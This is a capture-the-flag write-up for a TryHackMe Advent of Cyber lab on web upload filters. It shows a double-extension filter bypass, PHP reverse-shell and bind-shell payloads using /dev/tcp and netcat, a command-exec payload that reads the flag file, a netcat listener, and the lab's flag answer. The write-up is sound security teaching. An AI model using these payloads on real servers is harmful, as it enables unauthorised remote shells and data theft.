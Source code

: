 # Day 2 - The Elf Strikes Back!

**Date:** 02, December, 2020

**Author:** Dhilip Sanjay S

---
## Reverse Shell
- Attack Box will be listening for incoming connection. The victim will connect back to the attack box (by some malicious script).
- In this example, the PHP script is used to create a reverse shell.

## Bind Shell
- A bind shell is created in the victim and binds to a specific port to listen for an incoming connection from the attack box.
---
## Solutions
### What string of text needs added to the URL to get access to the upload page?
- **Answer:** `?id=Your-ID`
---
### What type of file is accepted by the site?
- **Answer:** image
- **Steps to reproduce:** View source code. You can see that, it will accept files with following extensions:  `.jpg, .jpeg, .png` (which are image extensions).
---
### Bypass the filter and upload a reverse shell.
- To bypass the file upload extension filter: `your-file.(jpg|jpeg|png).php`
- The filter will check the extension after the first dot in the filename. This way, you can upload any file format. 

- Reverse shell is used to obtain the flag. 3 ways to obtain flag using PHP:
1. __Reverse Shell using the pre-written script__
    - Make a copy of the script: `/usr/share/webshells/php/php-reverse-shell.php` 
    - Replace `$ip` and `$port` in the script with your IP Address and the port on which your netcat is listening. 

2. __Reverse Shell using exec command__
    - To obtain Reverse shell without much complicated code.
    - And also netcat is not available in target.

    ```php
    <?php
    echo exec("/bin/bash -i > /dev/tcp/$ip/$port 0<&1 2>&1");
    ?>
    ```
    - **Note:** Replace `$ip` and `$port` with your IP Address and the port on which your netcat is listening.

> In the same way, **bind shell** can be established:
> ```php 
> <?php
> exec("nc -lp $port -e /bin/sh");
> ?>
> ```
> - But `nc` is not installed on the server. So, it is not possible in this case.
> - To connect to the bind shell, on the attack machine type the command: `nc $target_ip $port`.

3. __Print the flag directly__
    - We know that the flag is in the file `/var/www/flag.txt`. So, we can use PHP to directly fetch and display the flag for us.
    ```php
    <?php
    echo shell_exec("cat /var/www/flag.txt");
    ?>
    ```
---
### In which directory are the uploaded files stored?
- **Answer:** /uploads/
- Use `dirbuster` to find the folders.

---
### Activate your reverse shell and catch it in a netcat listener!
- To activate the reverse shell, go to the `/uploads/` directory and click on the file you uploaded.
- To listen to the reverse shell:
    ```bash
    sudo nc -lvnp $port
    ``` 
---
### What is the flag in `/var/www/flag.txt`?
-  **Answer:** THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

---

## Reference Links
- [Netcat without netcat](https://www.youtube.com/watch?v=hZ6TjWuepqw)
- [IO redirection](https://tldp.org/LDP/abs/html/io-redirection.html)
- [Meaning of 2>&1 (STDERR to STDOUT)](https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean)

[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 